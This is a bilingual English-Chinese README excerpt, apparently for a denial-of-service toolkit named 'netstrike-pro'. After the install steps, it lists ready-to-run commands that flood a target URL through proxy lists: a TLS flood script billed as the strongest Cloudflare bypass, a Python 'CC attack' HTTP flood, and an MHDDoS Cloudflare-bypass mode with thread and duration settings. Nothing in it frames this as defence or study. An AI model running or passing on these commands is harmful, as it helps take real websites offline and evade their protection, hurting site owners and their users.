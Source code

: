 </div>

---

## 🚀 Quick Start | 快速开始

### Installation | 安装

```bash
# Clone repository | 克隆仓库
git clone https://github.com/yourusername/netstrike-pro.git
cd netstrike-pro

# Install dependencies | 安装依赖
pip3 install -r requirements.txt

# Optional: Install UI dependencies | 可选：安装 UI 依赖
pip3 install rich pyfiglet colorama
```

### Basic Usage | 基础用法

**Option A: Use Original Tools (Recommended)** | **方案 A: 使用原有工具（推荐）**

```bash
cd legacy

# Refresh proxies | 刷新代理
./refresh_proxy.sh

# CloudFlare bypass (Strongest) | CloudFlare 绕过（最强）
node 新建文件夹/tls.js https://target.com 120 128 10 proxy_paid.txt

# Python CC attack | Python CC 攻击
python3 cc.py -url https://target.com -f proxy_paid.txt -v http -s 60

# MHDDoS specialized bypass | MHDDoS 专用绕过
python3 mhddos/start.py CFB 0 https://target.com 200 proxy_paid.txt 100 180
```

**Option B: New Framework** | **方案 B: 新框架**

```bash
# View version | 查看版本
python3 attack.py --version

# Show help | 显示帮助
python3 attack.py --help

# View UI | 查看界面
python3 -c "from ui.intro import show_intro; show_intro('en')"
```

---
